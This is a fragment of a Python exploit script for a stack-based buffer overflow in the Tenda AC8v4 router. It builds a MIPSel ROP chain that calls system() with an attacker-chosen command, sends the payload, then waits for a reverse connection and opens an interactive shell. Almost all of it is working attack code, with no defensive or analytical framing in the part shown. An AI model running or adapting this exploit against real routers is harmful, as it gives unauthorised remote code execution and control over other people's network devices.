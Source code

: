 ```
        # | $sp1+0x48           | t9_target            |  i ->  $s4  
        # | $sp2+0x5c           | t9_EQ_s4_JR_1C_p_18  |  ii <- $t9 ($spsz2+=0x60)
        # | $sp1+$sp2+$sp3-0xC  | command              |  <- $a0
        # | $sp1+$sp2+0x34      | a0_EQ_sp24_c_JR_24sp |  iii. ($spsz3+=38)
        # | $sp1+$sp2+$sp3+0x24 | _system              |  <- jmp

        return flat(_payload)

    payload = _rop(ropcmd)
    sink(payload=payload)

    print('')
    listener.wait_for_connection()
    log.critical("Recieved shell!")
    listener.interactive()

if __name__ == "__main__":
    ropcmd, host, port = ap()
    log.info("0reg.dev - retr0reg")
    log.info("Tenda AC8v4 stack-based overflow")
    print('')
    print(
        """\        __________        __          _______                                \______   \ _____/  |________ \   _  \_______   ____   ____          |       _// __ \   __\_  __ \/  /_\  \_  __ \_/ __ \ / ___\         |    |   \  ___/|  |  |  | \/\  \_/   \  | \/\  ___// /_/  >        |____|_  /\___  >__|  |__|    \_____  /__|    \___  >___  /                 \/     \/                    \/            \/_____/          """
    )
    log.info("RCE via Mipsel ROP")
    pwn(ropcmd, host, port)

```  
  
  
  
